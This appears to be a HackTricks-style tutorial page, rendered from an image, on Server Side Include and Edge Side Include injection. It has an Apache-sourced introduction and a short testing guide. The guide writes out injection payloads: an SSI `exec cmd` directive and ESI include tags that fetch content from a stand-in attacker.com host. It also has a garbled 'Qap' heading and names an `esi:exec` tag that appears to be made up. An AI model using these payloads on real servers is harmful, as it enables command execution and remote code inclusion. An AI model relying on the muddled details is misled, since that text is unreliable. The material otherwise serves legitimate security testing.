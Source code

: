 # Server Side Inclusion/Edge Side Inclusion Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Server Side Inclusion Basic Information

**(Introduction taken from [Apache docs](https://httpd.apache.org/docs/current/howto/ssi.html))**

SSI (Server Side Includes) are directives that are **placed in HTML pages, and evaluated on the server** while the pages are being served. They let you **add dynamically generated content** to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.\
For example, you might place a directive into an existing HTML page, such as:

`<!--#echo var="DATE_LOCAL" -->`

And, when the page is served, this fragment will be evaluated and replaced with its value:

`Tuesday, 15-Jan-2013 19:28:54 EST`

The decision of when to use SSI, and when to have your page entirely generated by some program, is usually a matter of how much of the page is static, and how much needs to be recalculated every time the page is served. SSI is a great way to add small pieces of information, such as the current time - shown above. But if a majority of your page is being generated at the time that it is served, you need to look for some other solution.

You can infer the presence of SSI if the web application uses files with the extensions \*\* `.shtml`, `.shtm` or `.stm`\*\*, but it's not only the case.

A typical SSI expression has the following format:
```
<!--#directive param="value" -->
```
### Qap

To check for Server-Side Inclusion (SSI) and Edge-Side Inclusion (ESI) Injection vulnerabilities, you can follow these steps:

1. **Identify the target**: Determine the target website or application that you want to test for SSI or ESI Injection vulnerabilities.

2. **Inspect the source code**: Analyze the source code of the target application to identify any potential SSI or ESI injection points. Look for server-side scripting languages like PHP, ASP, or JSP, as well as any ESI tags or directives.

3. **Test for SSI Injection**: To test for SSI Injection, try injecting server-side include directives into user-controllable input fields or parameters. This can include file inclusion directives like `<!--#include virtual="file.txt" -->` or `<!--#exec cmd="ls" -->`. If the server processes these directives and includes the specified file or executes the command, it indicates a potential SSI Injection vulnerability.

4. **Test for ESI Injection**: To test for ESI Injection, look for user-controllable input fields or parameters that are used in ESI tags or directives. Try injecting ESI tags like `<esi:include src="http://attacker.com/malicious.esi" />` or `<esi:exec src="http://attacker.com/malicious.esi" />`. If the server processes these tags and includes or executes the specified ESI file, it indicates a potential ESI Injection vulnerability.
